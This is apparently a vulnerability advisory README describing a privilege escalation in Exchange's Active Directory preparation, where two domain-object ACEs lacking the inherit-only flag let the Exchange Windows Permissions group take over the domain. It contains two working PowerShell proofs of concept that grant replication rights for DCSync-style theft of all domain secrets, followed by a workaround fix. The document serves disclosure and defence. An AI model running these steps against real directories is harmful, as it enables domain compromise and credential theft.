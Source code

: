 ## Domain object DACL privilege escalation

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain.

DISCLAIMER: This issue has been responsibly disclosed to MSRC in October 2017 and after a few back and forth emails, they decided it was working as intended and would not fix it.

* Description of the issue

When preparing Exchange 2010/2013/2016 installation in Shared permissions (default) or RBAC split permissions, some ACEs are positioned on the domain object for the **Exchange Windows Permissions** security group.
This happens during the "Setup /PrepareAD" command.

Two ACEs on the domain object are missing the INHERIT_ONLY_ACE bit in the Flags field. 

This is their SDDL representation:

```
(OA;CI;DTWD;;4828cc14-1437-45bc-9b07-ad6f015e5f28;<SID of EWP>)
(OA;CI;DTWD;;bf967aba-0de6-11d0-a285-00aa003049e2;<SID of EWP>)
```

Notice the missing 'IO' (inherit_only) flag. As a matter of fact, INHERITED_OBJECT_TYPE ACE effectively apply to the object itself when the inherit_only flag is not set.

This is how they are documented on Technet, so it is definitely missing that information:


| Account | ACE type | Inheritance | Permissions | On property/ Applies to | Comments |
| ------- | -------- | ----------- | ----------- | ----------------------- | -------- |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / user | |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / inetOrgPerson | |



This is how they appear in the GUI (DSA console), which is also missing that information:

![DSA ACE view](DSA_ACE_view.png "DSA ACE view")

The issue can be confirmed in the "Effective Access" tab of the domain object when specifying EWP.

![DSA effective access](DSA_effective_access.png "DSA effective access")


Coincidentally, INHERITED_OBJECT_TYPE ACE created with DSA console always have the IO flag. Creating a 'self and specific descendents', INHERITED_OBJECT_TYPE ACE is only possible programmatically and only viewable programmatically.


* Technical consequence

The Allow permission to WriteDACL is granted to the Trustee on the domain object itself and not only on its user/inetOrgPerson descendants, effectively giving complete control to anyone with the **Exchange Windows Permissions** SID in its token.

* Expected behavior

The Allow permission to WriteDACL should only be given on child objects matching the INHERITED_OBJECT_TYPE Guid. It is supposed to only apply to user or inetOrgPerson classes.
This is not consistent with the other INHERITED_OBJECT_TYPE ACEs on the domain object for the same Trustee, which all have the INHERIT_ONLY_ACE bit in the Flags field.


* Security Consequence

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain. Just set the Ds-Replication-Get-Changes-All extended right on the domain object. This is enough to use a DRSUAPI replication tool ala DCSync to get all the domain secrets (Kerberos keys, hashes, etc.).

You can control the SID of the EWP group from **Organization management**, from **Account operators** or from any Exchange server.
Interestingly, the RBAC system is proxified through EWP so a privilege escalation is possible from the *Active Directory Permissions* RBAC role to compromise the entire prepared Active Directory domain.


* Proof of concept 1: Set-Acl (or with DSA console)

From an **Organization Management** member account, add yourself to **Exchange Windows Permissions**.
This is possible by default (see the above technet page).

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user
```

RELOG to update groups in your token then give yourself Ds-Replication-Get-Changes-All extended right on the domain object.

```
$acl = get-acl "ad:DC=test,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=test,DC=com"
```


* Proof of concept 2: RBAC Add-ADPermission

The following Powershell code, executed by a user account with the RBAC role *Active Directory Permissions*, sets the Ds-Replication-Get-Changes-All extended right on the domain object.

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
Add-ADPermission "DC=test,DC=local" -User $id.Name -ExtendedRights Ds-Replication-Get-Changes-All
```

* Workaround fix

Use the Fix-DomainObjectDACL.ps1 Powershell script in this repository. Read it, test it, use it at your own risk.

By default, it checks the two faulty ACE, this can be done by any user. Use with -Fix switch with Domain Admins privileges to set the InheritOnly missing flags. 
Use with -Restore switch to restore the two previously fixed ACEs to their original, *vulnerable* state. An SDDL backup is made everytime the script is run. 


Another option is doing it manually with LDP. Bind as a Domain Admin account with the usual precautions, as you will change the domain object DACL.
Locate the 2 faulty ACE in the DACL of the domain object: you can sort by Trustee to see Exchange Windows Permissions, there will only be 2 ACE with "Write DACL,..." Rights.
Check the 'Inherit only' box in their ACE flags field. 


